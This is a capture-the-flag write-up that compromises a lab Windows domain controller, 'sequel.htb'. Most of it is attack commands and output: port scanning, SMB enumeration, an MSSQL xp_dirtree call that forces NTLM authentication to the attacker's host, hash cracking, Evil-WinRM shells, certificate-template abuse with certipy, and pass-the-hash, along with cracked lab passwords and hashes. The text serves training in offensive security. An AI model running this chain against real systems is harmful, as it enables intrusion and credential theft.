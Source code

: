 ## Full TCP Port Scan (Aggressive) [195s]

```bash
sudo nmap -Pn -p- -A -T4 10.129.228.253
```

```text
Starting Nmap 7.95 (https://nmap.org) at 2025-04-04 07:25 EDT
Nmap scan report for 10.129.228.253
Host is up (0.046s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
49721/tcp open  msrpc         Microsoft Windows RPC
49742/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration

### SMB Shares
List available shares:
```bash
smbclient -L \\\\10.129.228.253\\
```
```text
Sharename       Type      Comment
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
Public          Disk      
SYSVOL          Disk      Logon server share 
```

### Public Share Access
Download files from Public share:
```bash
smbclient //10.129.228.253/Public
```
```text
smb: \> get "SQL Server Procedures.pdf"
```

### PDF Analysis
Key findings from `SQL Server Procedures.pdf`:
- Access credentials: `PublicUser:GuestUserCantWrite1`
- Domain: `sequel.htb`

## Exploitation

### MSSQL Access
Connect using discovered credentials:
```bash
impacket-mssqlclient sequel/PublicUser:GuestUserCantWrite1@10.129.228.253
```

### NTLM Relay Attack
Capture NTLMv2 hash using Responder:
```bash
responder -I tun0
```
In MSSQL client:
```sql
EXEC xp_dirtree '\\10.10.16.27\HACK', 1, 1;
```

### Hash Cracking
Crack captured hash:
```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
```text
SQL_SVC::sequel:d83afb1e567c4e35:796940ba3a26558c49e67e8d07734fbc...:REGGIE1234ronnie
```

### Initial Access via Evil-WinRM
```bash
evil-winrm -u SQL_SVC -p 'REGGIE1234ronnie' -i 10.129.228.253
```
```text
*Evil-WinRM* PS C:\Users\sql_svc\Documents>
```

### User Flag
```powershell
type C:\Users\Ryan.Cooper\Desktop\user.txt
0f56********************
```

## Privilege Escalation

### Credential Discovery
Found in SQL logs:
```text
2022-11-18 13:43:07.48 Logon failed for user 'NuclearMosquito3'
```

### Ryan.Cooper Access
```bash
evil-winrm -u Ryan.Cooper -p 'NuclearMosquito3' -i 10.129.228.253
```

### ADCS Enumeration
List certificate templates:
```bash
certipy-ad find -u 'Ryan.Cooper' -p 'NuclearMosquito3' -dc-ip 10.129.228.253
```

### Certificate Request
Request certificate for Administrator:
```bash
certipy-ad req -u 'Ryan.Cooper' -p 'NuclearMosquito3' -ca 'sequel-DC-CA' -template 'UserAuthentication' -upn Administrator -dc-ip 10.129.228.253
```
```text
[*] Saved certificate and private key to 'administrator.pfx'
```

### NT Hash Retrieval
```bash
certipy-ad auth -pfx administrator.pfx -domain sequel.htb -dc-ip 10.129.228.253
```
```text
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```

### Administrator Access
Pass-the-hash with Evil-WinRM:
```bash
evil-winrm -u Administrator -H 'a52f78e4c751e5f5e17e1e9f3e58f4ee' -i 10.129.228.253
```

### Root Flag
```powershell
type C:\Users\Administrator\Desktop\root.txt
d2ced*************************
```
